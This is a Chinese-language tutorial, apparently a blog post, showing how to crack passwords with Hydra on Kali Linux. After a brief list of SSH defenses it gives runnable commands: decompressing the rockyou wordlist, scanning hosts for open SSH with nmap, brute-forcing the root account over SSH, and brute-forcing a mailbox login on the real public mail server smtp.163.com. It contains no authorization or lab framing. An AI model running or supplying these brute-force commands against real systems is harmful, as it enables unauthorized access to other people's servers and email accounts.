


# 使用Hydra通过ssh破解密码

Hydra是非常高效的网络登录破解工具，它可以对多种服务程序执行[暴力破解](2016-4-14-hack-brute-force.md)（SSH、VNC等等）。

防止这种攻击其实很容易，方法很多。以SSH为例：

* Ubuntu：使用Port Knocking隐藏SSH端口
* 在Ubuntu中用Fail2Ban保护SSH
* CentOS 7安装使用Fail2Ban保护SSH
* Debian使用Fail2Ban和Tinyhoneypot增加网络安全

*****

Kail Linux有一个的GUI版本：xhydra，也有一个命令行版本：hydra。

xhydra：



hydra：



我使用命令行版本：hydra

### 字典

这种攻击需要字典文件，一个好的字典至关重要。我以Kali Linux自带的rockyou字典为例，位于/user/share/wordlists/rockyou.txt.gz。

使用前先解压：

```shell
# gzip -d /usr/share/wordlists/rockyou.txt.gz
```

### 使用nmap扫描开启SSH服务的主机

扫描SSH服务(22端口)，确定可以施行破解的主机。

```shell
＃ nmap -p 22 -open -sV one_IP_or_range_or_subnet > MyTarget
```

### 使用hydra暴力破解

```shell
# hydra -s 22 -v -l root -P /usr/share/wordlists/rockyou.txt 192.168.0.108 ssh
```

****

破解邮箱密码：

```
# hydra -S -l test@163.com -P /usr/share/wordlists/rockyou.txt -e ns -V -s 465 -t 1 smtp.163.com smtp
```

更多选项，查看man hydra。